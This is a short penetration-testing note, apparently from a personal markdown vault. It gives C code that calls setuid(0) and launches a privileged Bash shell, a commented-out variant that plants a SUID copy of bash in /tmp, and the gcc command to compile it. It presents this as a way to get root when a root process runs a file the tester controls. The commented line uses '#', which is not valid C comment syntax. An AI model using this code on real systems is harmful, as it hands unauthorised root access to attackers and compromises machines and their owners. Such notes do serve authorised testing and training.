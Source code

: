 ```yaml
---
category: Uncategorized
tags: [pentest]
created: 2024-12-21

---
```

There may be instances where some root process executes another process which you can control. In these cases, the following C code, once compiled, will spawn a Bash shell running as root:

==privesc.c==

---
```bash - target
int main() {
 setuid(0);
 system("/bin/bash -p");
 #system("cp /bin/bash /tmp/bash && chmod +s /tmp/bash && /tmp/bash -p");

}
```

```bash - target
gcc privesc.c -o privesc 
```


Last updated: `$= dv.current().file.mtime.toFormat("MMMM dd, yyyy 'at' HH:mm")`
